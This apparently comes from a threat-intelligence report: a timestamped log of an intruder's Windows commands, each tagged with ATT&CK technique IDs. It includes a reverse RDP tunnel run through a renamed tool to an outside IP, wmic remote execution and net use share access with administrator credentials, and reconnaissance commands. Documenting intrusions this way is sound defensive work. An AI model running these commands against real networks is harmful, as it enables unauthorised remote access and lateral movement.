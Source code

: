 
16:07:55
quser /server:<redacted IP #1>
T1087


16:08:42
echo y | c:\windows\temp\RTQ.exe 192.119.110[.]194 -C -R 0.0.0.0:8081:<redacted IP #1>:3389 -l bor -pw 123321 -P 443
T1572, T1021.001


16:09:03
wmic /node:"127.0.0.1" /user:administrator /PASSWORD:"<redacted password #2>" process call create "cmd.exe /c whoami"
T1047, T1033


16:09:15
ipconfig/all
T1016


16:09:35
wmic /node:"Exchange" /user:administrator /PASSWORD:"<redacted password #2>" process call create "cmd.exe /c whoami"
T1047, T1033


16:10:35
net use \<redacted IP #1>\C$ /user:<redacted domain>\<redacted username #2> <redacted password #1>
T1021.002


16:10:45
quser /server:<redacted IP #4>
T1087


16:13:17
ipconfig/all
T1016


16:13:27
wmic /node:"<redacted IP #1>" /user:<redacted domain>\<redacted username #2> /PASSWORD:<redacted password #1> process call create "cmd.exe /c c:\windows\temp\RTQ.exe whoami"
T1047, T1033


16:14:20
type \<redacted IP #1>\C$\windows\temp\w.txt
T1039, T1021.002


16:14:30
dir \<redacted IP #1>\C$\windows\temp\*.txt
T1083, T1021.002


16:14:56
wmic /node:"<redacted IP #1>" /user:<redacted domain>\<redacted username #2> /PASSWORD:<redacted password #1> process call create "cmd.exe /c tasklist > c:\windows\temp\ww.txt"
T1047
